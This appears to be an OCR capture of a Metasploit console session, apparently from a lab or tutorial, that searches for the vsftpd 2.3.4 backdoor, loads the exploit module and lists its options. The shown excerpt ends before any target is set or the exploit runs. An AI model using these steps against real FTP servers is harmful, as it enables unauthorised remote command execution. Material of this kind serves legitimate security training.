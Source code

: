 ```
 ______________________________________________________________________________     
|                                                                              |
|                          3Kom SuperHack II Logon                             |
|______________________________________________________________________________|
|                                                                              |
|                                                                              |
|                                                                              |
|                 User Name:          [   security    ]                        |
|                                                                              |
|                 Password:           [               ]                        |
|                                                                              |
|                                                                              |
|                                                                              |
|                                   [ OK ]                                     |
|______________________________________________________________________________|
|                                                                              |
|                                                       https://metasploit.com |
|______________________________________________________________________________|
                                             
                                             
       =[ metasploit v6.0.41-dev                          ]
+ -- --=[ 2122 exploits - 1138 auxiliary - 360 post       ]
+ -- --=[ 594 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 8 evasion                                       ]

Metasploit tip: To save all commands executed since start up 
to a file, use the makerc command

msf6 > search vsftpd 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description 
   -  ----                                  ---------------  ----       -----  ----------- 
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

```